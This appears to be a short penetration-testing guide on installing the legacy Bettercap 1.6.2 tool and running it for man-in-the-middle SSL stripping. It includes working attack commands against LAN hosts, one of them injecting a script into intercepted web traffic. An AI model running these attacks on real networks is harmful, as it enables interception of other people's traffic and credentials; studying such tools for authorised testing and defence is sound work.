 ```yaml
---
description: Bettercap 1.6.2 is a tool for Man In The Middle Attack and SSL Strip . You will find a series of practical example commands for running Bettercap 1.6.2 and getting the most of this powerful tool.
---
```


## Bettercap 1.6.2 Installation

BetterCAP is a powerful, flexible, and portable tool created to perform various types of MITM attacks against a network

Bettercap 1.6.2 is legacy tool, but it performs ssl strip much better then Bettercap 2.x

Install Ruby Gem

```bash
apt install -y ruby-full libpcap-dev
gem update --system
gem install bettercap
```

Bettercap 1.6.2 installs the executable to /usr/local/bin/bettercap

Bettercap 2.x installs the executable to /usr/bin/bettercap

Both Bettercap 1.6.2 and 2.x shares the same executable name. In order to privet any collisions we will rename the Bettercap 1.6.2 executable to `bettercap1.6.2`.

```bash
mv /usr/local/bin/bettercap /usr/local/bin/bettercap1.6.2
```

From this point you can run bettercap1.6.2 for `Bettercap 1.6.2` and bettercap for `Bettercap 2.x`

## Bettercap 1.6.2 SSL Strip Examples

**Basic SSL Strip Example**

```bash
bettercap1.6.2 -X -T 192.168.1.104 --proxy
```

**SSL Strip With XSS Example**

```bash
bettercap1.6.2 -X -T 192.168.3.104 --proxy --proxy-module injectjs --js-data "<script>alert('SSL STRIP, Script Injection')</script>"
```

## Dbug

To find that Bettercap installation from ruby gems:

```bash
gem environment
```

the path should be under **GEM PATHP** for example:

```bash
/var/lib/gems/2.7.0/gems/bettercap-1.6.2
```
